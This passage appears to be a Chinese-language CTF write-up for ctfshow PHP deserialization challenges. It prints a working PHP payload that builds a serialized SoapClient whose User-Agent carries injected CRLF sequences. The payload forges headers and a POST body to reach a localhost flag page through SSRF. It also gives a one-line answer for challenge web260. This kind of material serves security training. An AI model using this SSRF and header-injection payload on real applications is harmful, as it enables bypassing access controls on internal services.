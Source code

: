 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141632241.png)

预期解是利用 SoapClient 类进行 ssrf

当调用不存在的方法 (getFlag) 时, 会调用 SoapClient 类中的 `__call__()` 方法, 然后发送 http/https 请求

构造 post 数据包时还利用到了 CRLF 漏洞

参考文章

[https://www.leavesongs.com/PENETRATION/Sina-CRLF-Injection.html](https://www.leavesongs.com/PENETRATION/Sina-CRLF-Injection.html)

这里通过 User-Agent 进行 CRLF 注入来构造其它 header 头

payload

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_data = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
);

$user_agent = "Chrome\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".strlen($post_data)."\r\n\r\n".$post_data;

$o = new SoapClient(null,array('location' => $target,'user_agent'=>$user_agent,'uri'=>'test'));
echo urlencode(serialize($o));
?>
```

之后访问 flag.txt 得到 flag

## web260

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}
```

???

```
http://aa5f46bc-7908-49d6-b6b0-02f95714a8aa.challenge.ctf.show/?ctfshow=ctfshow_i_love_36D
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141700670.png)
